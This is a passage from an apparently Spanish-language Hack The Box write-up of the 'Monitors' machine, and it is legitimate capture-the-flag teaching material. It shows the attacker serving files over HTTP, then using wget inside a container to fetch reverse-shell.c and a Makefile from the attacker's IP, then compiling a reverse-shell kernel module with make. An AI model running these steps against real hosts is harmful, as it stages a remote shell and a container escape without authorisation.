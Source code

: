 ```
python3 -m http.server 80
```

Desde el contenedor, descargaremos los dos archivos que acabamos de crear usando `wget`.

```
wget http://<nuestraIP>:80/reverse-shell.c
```

```
wget http://<nuestraIP>:80/Makefile
```

![64](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/64.png){:class="blog-image" onclick="expandImage(this)"}

Posteriormente, ejecutaremos el comando `make` para compilar el módulo, lo que generará el archivo `reverse-shell.ko`.

```
make
```

![65](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/65.png){:class="blog-image" onclick="expandImage(this)"}
